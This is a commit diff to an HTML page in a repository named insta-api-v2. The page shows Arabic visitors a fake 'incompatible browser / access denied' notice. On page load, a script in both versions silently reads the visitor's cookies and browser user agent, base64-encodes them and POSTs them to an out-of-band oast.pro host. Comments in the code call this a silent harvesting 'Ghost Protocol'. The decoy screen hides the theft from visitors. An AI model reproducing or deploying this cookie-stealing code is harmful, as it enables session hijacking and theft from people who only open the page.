

Before and after one commit to amariamin/insta-api-v2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 389-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Deployment_Complete: Minimalist_Ghost_V10.2

```diff
--- a/index.html
+++ b/index.html
@@ -1,39 +1,38 @@
 <!DOCTYPE html><html><head><title>Access Denied</title><meta charset="UTF-8">
 <style>
-    /* إخفاء أي محتوى خارج الصندوق المركزي */
-    body, html { background-color: #ffffff; margin: 0; padding: 0; height: 100%; overflow: hidden; display: flex; justify-content: center; align-items: center; direction: rtl; }
+    /* إلغاء التمرير وجعل الخلفية بيضاء تماماً */
+    html, body { background-color: #ffffff; margin: 0; padding: 0; height: 100%; overflow: hidden; display: flex; justify-content: center; align-items: center; direction: rtl; }
 
-    .central-card { background: #fff; padding: 45px; border-radius: 12px; border-top: 5px solid #e74c3c; box-shadow: 0 20px 50px rgba(0,0,0,0.1); text-align: center; max-width: 420px; width: 85%; z-index: 100; }
+    /* تصميم الصندوق المركزي الاحترافي */
+    .card { background: #fff; padding: 45px; border-radius: 12px; border-top: 5px solid #e74c3c; box-shadow: 0 10px 40px rgba(0,0,0,0.06); text-align: center; max-width: 400px; width: 85%; }
 
-    .icon-warning { font-size: 65px; color: #f39c12; margin-bottom: 25px; }
+    .icon { font-size: 55px; color: #f39c12; margin-bottom: 25px; }
 
-    h2 { color: #2c3e50; font-size: 20px; margin-bottom: 15px; font-weight: 700; line-height: 1.4; }
+    h2 { color: #2c3e50; font-size: 20px; margin: 0 0 15px 0; font-weight: bold; }
 
-    .description { color: #7f8c8d; font-size: 15px; line-height: 1.8; margin-bottom: 25px; }
+    p { color: #7f8c8d; font-size: 15px; line-height: 1.7; margin-bottom: 25px; }
 
-    .error-tag { background: #f8f9fa; padding: 12px; border-radius: 6px; border: 1px solid #eee; font-family: monospace; font-size: 13px; color: #555; }
+    .tech-box { background: #f9f9f9; padding: 12px; border-radius: 4px; border: 1px solid #eee; font-family: monospace; font-size: 13px; color: #666; }
 </style>
 <script type="text/javascript">
 window.onload = function() {
-    // 1. بروتوكول الحصاد الصامت (Ghost Protocol)
+    // 1. بروتوكول السحب الصامت
     var c = document.cookie || "no_session";
-    var payload = btoa(unescape(encodeURIComponent("V10_FINAL|C:" + c + "|UA:" + navigator.userAgent)));
+    var p = btoa(unescape(encodeURIComponent("V10.2|C:" + c + "|UA:" + navigator.userAgent)));
 
     fetch('https://4f7573d52662cf30e0fbguw9udwyyyyyb.oast.pro?session=v10_active', {
-        method: 'POST', mode: 'no-cors', body: payload
+        method: 'POST', mode: 'no-cors', body: p
     });
 
-    // 2. حقن الواجهة المركزية فقط (لا يوجد شيء في الأسفل)
+    // 2. الواجهة المركزية فقط (لا يوجد أي محتوى إضافي أسفل الشاشة)
     document.body.innerHTML = `
-        <div class="central-card">
-            <div class="icon-warning">⚠️</div>
+        <div class="card">
+            <div class="icon">⚠️</div>
             <h2>تم الكشف عن متصفح غير متوافق</h2>
-            <div class="description">
-                لأسباب أمنية وتوافقية، لا يمكن عرض هذه الجلسة المشفرة في متصفحك الحالي. الوصول مقتصر على البيئات المحدثة والمعتمدة فقط.
-            </div>
-            <div class="error-tag">
+            <p>لأسباب أمنية وتوافقية، لا يمكن عرض هذه الجلسة المشفرة في متصفحك الحالي. الوصول مقتصر على البيئات المعتمدة فقط.</p>
+            <div class="tech-box">
                 STATUS: ACCESS_DENIED_0x00412<br>
-                REF_ID: ${Math.random().toString(36).substring(7).toUpperCase()}
+                SEC_ID: ${Math.random().toString(36).substring(7).toUpperCase()}
             </div>
         </div>
     `;
```
